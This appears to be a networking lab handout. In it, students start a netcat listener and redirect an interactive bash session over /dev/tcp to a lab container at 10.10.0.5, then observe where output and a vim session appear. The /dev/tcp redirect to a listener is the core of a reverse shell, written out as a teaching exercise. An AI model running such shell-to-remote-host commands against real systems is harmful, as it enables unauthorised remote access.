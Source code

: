 # Experiment 6: Some bash fun

Now, let's make things a bit more fun. Using the same setup, start a netcat
server on the server machine using:

```sh
$ nc -n -v -l 9090
```

However, on the client side, run the following command:

```sh
$ /bin/bash -i > /dev/tcp/10.10.0.5/9090
```

You will notice that you are still in bash, however, a new instance of `bash`
has been created in interactive mode.

## Question sheet

Before you test any commands, answer the following question:

1. By looking at the command on the client, where do you expect the output of
   your commands to show up?

Next, let's confirm your intuition, try to list the files in the current
directory using `ls` on the client machine. Where does the output show up?

## A bit more fun

On the client machine, start a `vim` session. You will receive a warning from
`vim` that the output is funky, ignore that. A few moment later, `vim` will
**show up on the server** container all the while allowing you to edit and enter
command **from the client** container.

We have just offloaded the rendering of the `vim` session to the server all the
while doing the editing commands on the client container.

Try it out with a few other commands, then when you are ready, kill both
sessions at the server and the client. You might need to manually force the
server to exit using `C-c` on the server for the connection to be dropped
(though it depends on which commands you have tried).

## Optional: `simple_prompt` using remote input

This experiment is optional, though it might be helpful with the last
experiment. On the server container, launch a `netcat` server using:

```sh
$ nc -n -v -l 9090
```

On the client container, launch the `simple_prompt.bin` program while asking it
to read the input from the **server connection**.
